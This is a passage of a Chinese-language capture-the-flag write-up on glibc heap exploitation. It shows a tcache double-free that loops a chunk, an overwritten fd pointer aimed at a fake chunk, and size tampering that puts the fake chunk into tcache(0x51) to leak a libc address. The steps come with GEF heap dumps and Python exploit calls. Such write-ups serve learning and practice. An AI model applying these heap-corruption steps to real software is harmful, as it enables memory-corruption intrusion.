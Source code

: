 - free两次后成环，tcahe count=2，内存上被free的chunk的fd域(user data首地址)被更改为tcache链上下一chunk的首地址，由于成环，fd被改为自身的地址

```assembly
heap bins  # free两次后的情况
──────────────────────── Tcachebins for thread 1 ────────────────────────────
Tcachebins[idx=1, size=0x30] count=2  ←  Chunk(addr=0x555555b5de70, size=0x30, flags=PREV_INUSE)  ←  Chunk(addr=0x555555b5de70, size=0x30, flags=PREV_INUSE)  →  [loop detected]
...
gef➤  x /30xg 0x555555b5de70-0x10
0x555555b5de60: 0x0000000000000000      0x0000000000000031
0x555555b5de70: 0x0000555555b5de70      0x0000000000000000 # fd域被改为指向自己 成环
0x555555b5de80: 0x0000000000000000      0x0000000000000000
...
```

- free三次后，tcache count=3
- 然后申请回来一个chunk，并且改fd(user content前8B)为fake chunk的基址。由于成环，tcache上的chunk和刚刚申请回来的chunk是同一个，所以tcache上的chunk的fd也被改成了fake chunk基址(fd域)
- tcach的entry还是指向0x555555b5de70，但是由于0x555555b5de70的chunk的fd改成了0x555555b5deb0，所以此时下一个chunk就是0x555555b5deb0的size=0xa0的chunk。所以接下来再malloc两次就可以拿到这个fake chunk

```assembly
x /30xg 0x555555b5de70-0x10 # add(3, 0x20, p64(heap_base + 0x11eb0)) 执行完之后
0x555555b5de60: 0x0000000000000000      0x0000000000000031
0x555555b5de70: 0x0000555555b5deb0      0x0000000000000000
0x555555b5de80: 0x0000000000000000      0x0000000000000000
0x555555b5de90: 0x0000000000000000      0x0000000000000081
0x555555b5dea0: 0x00deadbeef012345      0x00000000000000a1 # |             |fake chunk size|
0x555555b5deb0: 0x0000000000000000      0x0000000000000000 # |fake chunk fd|               | 
0x555555b5dec0: 0x0000000000000000      0x0000000000000000
heap bins
────────────────────────────────── Tcachebins for thread 1 ───────────────────────────────────────
Tcachebins[idx=1, size=0x30] count=2  ←  Chunk(addr=0x555555b5de70, size=0x30, flags=PREV_INUSE)  ←  Chunk(addr=0x555555b5deb0, size=0xa0, flags=PREV_INUSE)
```

- add(5, 0x20, "ff") 执行完之后，程序输出`fake chunk addr=> 0x555555b5deb0`，已经指向fake chunk fd了

# Step-2: Put fake_chunk into tcache(0x51)

- taget：把fake chunk放到一个可以取回的tcache中暂存起来（题目限制了size<=0x78），不然没法输出后面存在fake chunk.fw中的libc上的地址
- method：
  1. 改 fake_chunk.size=0x51
  2. delete fake_chunk
  3. 改 fake_chunk.size=0xa1

```python
# === Step-2: put fake_chunk into tcache(0x51)。改fake_chunk.size=0x51(可以申请回来的大小)放入tcache(0x51) 再改回0xa1
delete(1)  # tcache(0x51).e->c_1 # 这个chunk可以控制fake chunk的size # delete后再申请回来，改 fake_chunk.size
add(6, 0x70, p64(0xdeadbeef1111) + p64(0x51))  # fake chunk.size=0x51
delete(5)  # tcache(0x51).e->fake_chunk
delete(5)  # tcache(0x51).e->fake_chunk->fake_chunk  # !!! 后续会把这个拿回去
delete(1)  # delete后再申请回来，改fake_chunk.size
add(7, 0x70, p64(0xdeadbeef2222) + p64(0xa1))  # fake chunk.size=0xa1 # fake_chunk.size 改回0xa1
```
